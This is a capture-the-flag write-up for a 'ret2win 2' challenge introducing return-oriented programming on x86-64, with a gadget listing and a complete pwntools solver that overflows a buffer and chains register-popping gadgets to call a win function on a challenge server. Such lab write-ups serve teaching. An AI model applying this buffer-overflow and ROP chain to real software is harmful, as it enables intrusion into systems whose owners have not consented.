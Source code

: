 ```yaml
---
description: Binary Exploitation
---
```


# ret2win 2

> _Introduction to Return Oriented Programming (ROP). Di arsitektur x86-64, 3 argumen pertama dari saat memanggil fungsi diambil dari register RDI, RSI, dan RDX. Dengan tools seperti ropper atau ROPgadget, kita bisa dapetin gadget yang bisa ngisi register-register itu dengan nilai yang kita inginkan._
>
> _Author: zran_

{% file src="../../.gitbook/assets/ret2win2 (1).zip" %}

My first introduction to using actual ROP to solve a challenge, learned stuff at ir0nstone and used the knowledge to perform "Ret2Win with Parameters". Since this was a 64-bit binary, I had to do register popping. But first, I had to find which variable was connected to which:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Looking at the disassembly for the win function, I saw three comparisons and fortunately they were easily recognizable with their register names of RDI, RSI, and RDX.

```
pwndbg> rop --grep pop
0x00000000004011fb : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401219 : cli ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x0000000000401216 : endbr64 ; push rbp ; mov rbp, rsp ; pop rdi ; ret
0x00000000004011f6 : mov byte ptr [rip + 0x2eab], 1 ; pop rbp ; ret
0x000000000040121c : mov ebp, esp ; pop rdi ; ret
0x000000000040121b : mov rbp, rsp ; pop rdi ; ret
0x0000000000401224 : nop ; pop rbp ; ret
0x00000000004011fd : pop rbp ; ret
0x000000000040121e : pop rdi ; ret
0x0000000000401222 : pop rdx ; ret
0x0000000000401220 : pop rsi ; ret
0x000000000040121a : push rbp ; mov rbp, rsp ; pop rdi ; ret
```

The author was nice enough to leave simple return gadgets for each required register pop, so here's the full solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19001
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19001)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

win = p64(0x401227)
POP_RDI = p64(0x40121e)
POP_RSI = p64(0x401220)
POP_RDX = p64(0x401222)
nop_ret = p64(0x40118f)

payload = b'A' * 120
payload += POP_RDI
payload += p64(0xdeadbeefdeadbeef)
payload += POP_RSI
payload += p64(0xabcd1234dcba4321)
payload += POP_RDX
payload += p64(0x147147147147147)
payload += nop_ret
payload += win

log.info(io.clean())
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
